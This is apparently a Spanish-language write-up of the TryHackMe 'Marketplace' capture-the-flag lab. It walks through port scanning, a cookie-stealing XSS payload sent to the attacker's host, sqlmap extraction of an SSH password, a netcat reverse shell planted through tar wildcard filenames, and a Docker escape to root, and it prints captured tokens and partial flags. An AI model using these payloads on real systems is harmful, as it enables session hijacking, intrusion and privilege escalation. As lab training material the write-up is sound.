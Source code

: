 ```yaml
---
title: "Marketplace :$%__ Tryhackme"
date: 2023-09-06T02:01:58+05:30
description: "¿Puedes hacerte cargo de la infraestructura de The Marketplace? "
tags: [tryhackme, sqli, docker, web]
---
```



## Escaneo de puertos

Comencé con el escaneo de `nmap` para encontrar puertos

```bash
$ nmap -sC -sV -Pn 10.10.144.119

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

miramos el sitio web ya que tiene el puerto 80 disponible


{{< figure src="https://i.imgur.com/ipsPYs3.png">}}


En la barra de navegación encontré una página de inicio de sesión, probé algunas cargas útiles de inyección SQL allí pero no funcionaron, también probé sqlmap pero no obtuve resultados, luego fui a la página de registro para registrarme, ahora usando esas credenciales puedo iniciar sesión en el sitio web.

{{< figure src="https://i.imgur.com/0WpwGrs.png">}}

## XSS

En `/New listing` ahora podemos crear un nuevo listado. Como la sala tiene la etiqueta xss, pensé en usar una carga útil xss



{{< figure src="https://i.imgur.com/L1nqpH7.png">}}


`y tenemos un XSS`


## Cookie del administrador

```bash

<script>document.location='http://10.2.55.245:8000/XSS/grabber.php?c='+document.cookie</script>


```

Nos ponemos en escucha por el puerto 8000

```bash
$ nc -nvlp 8000
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 43900
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiY3liZXIiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTYwMzI1NTc3Mn0.XFgO3ci8vuX_vvcAOeRhducv_RFGgqttCvQuI2FwonE** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://10.10.144.119/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```


Para asegurarnos de que el administrador vea este listado, le enviaremos un informe mediante la opción "Informar listado a los administradores".

Después de informar, recibiremos la cookie del administrador. 


```bash

$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 33228
GET /bogus.php?**output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg** HTTP/1.1
Host: 10.2.55.245:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/item/5
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Ahora editamos en el panel del navegador el token/cookie y tenemos acceso al administrador


al entrar al panel tenemos la primera `flag`

```
THM{c37************************c348d5}
```

## Sql injection

Pulsamos un usuario y accedemos a: /admin?user=1


```
/admin?user='

```

y recibimos un mensaje de error


{{< figure src="https://i.imgur.com/TEAilqy.png">}}


Usamos sqlmap obtener la db

```bash
$ sqlmap --dbms=mysql  -u 'http://10.10.144.119/admin?user=2' -p 'user' --cookie="token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMyNTc3Nzl9.Tt1_4wFLDydqatc32qabzzgeRiPtoVqPUGwGh6Ittcg**" --delay=2 --dump  

```

Obtenemos de la tabla messages esto:

```
User Hello!
An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
Your new password is: @b_ENXkGYUCAv3zJ
,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
,Thank you for your report. We have been unable to review the list

```

Aquí tenemos una posible contraseña SSH `@b_ENXkGYUCAv3zJ`

Probamos con el user jake

```bash
$ ssh jake@10.10.144.119
The authenticity of host '10.10.38.49 (10.10.38.49)' can't be established.
ECDSA key fingerprint is SHA256:nRz0NCvN/WNh5cE3/dccxy42AXrwcJInG2n8nBWtNtg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.49' (ECDSA) to the list of known hosts.
jake@10.10.38.49's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
```

```bash
jake@the-marketplace:~$ cat user.txt

THM{c3648************************c0b4}

```

### Escalada de privilegios Michael

```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

Jake puede ejecutar /opt/backups/backup.sh como usuario michael

```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

```
Y encontré [esta increíble publicación](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) que explica cómo explotar el comodín en `tar` para escalar privilegios. 


```bash
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.55.245 1234 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1

```

Ejecutamos el script

```bash
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory

```

Previamente nos colocamos en escucha en nuestra maquina local

```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.144.119] 36678
id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)

```
Estamos en el grupo `Docker`, buscamos en [GTFO Bins](https://gtfobins.github.io/gtfobins/docker/?ref=infosecarticles.com) y somos usuario root

```bash
python -c'import pty;pty.spawn("/bin/bash")'
michael@the-marketplace:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
.
.
.
# cat root.txt
cat root.txt
THM{d17dfe53g9*********}
#


```

